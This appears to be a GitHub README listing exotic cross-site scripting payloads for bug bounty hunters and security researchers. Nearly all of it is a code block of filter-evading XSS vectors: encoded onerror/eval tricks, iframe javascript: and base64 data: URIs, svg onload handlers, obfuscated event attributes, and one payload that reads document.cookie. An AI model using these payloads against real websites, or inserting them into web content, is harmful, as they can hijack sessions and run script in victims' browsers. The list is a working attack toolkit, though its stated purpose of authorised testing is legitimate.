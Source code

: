 # Awesome XSS Payloads and Vectors
Exotic and uncommon XSS Vectors to hit the target as quickly as possible.
THIS IS SPECIALLY FOR BUG BOUNTY HUNTERS AND SECURITY RESEARCHERS.

I REQUEST TO CONTRIBUTE TO THE PROJECT BY INCLUDING ONLY HIGHLY EXOTIC XSS VECTORS.


```
onerror%3Deval%3Bthrow'%3Dalert%5Cx281%5Cx29'%3B

<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>

<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"

&#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>
  '
<--`<img/src=` onerror=alert(1)> --!>
  
'';!--\"&lt;XSS&gt;=&{()}

¼script¾alert(¢XSS¢)¼/script¾

“><s”%2b”cript>alert(document.cookie)</script>

<iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

a=\"get\";
b=\"URL(\\"\";
c=\"javascript&#058;\";
d=\"alert('XSS');\\")\";
eval(a+b+c+d);

<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z

<svg•onload=alert(1)>

<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //># //This payload is used to fool and bypass advanced xss filters by fooling as if it is comments.
```
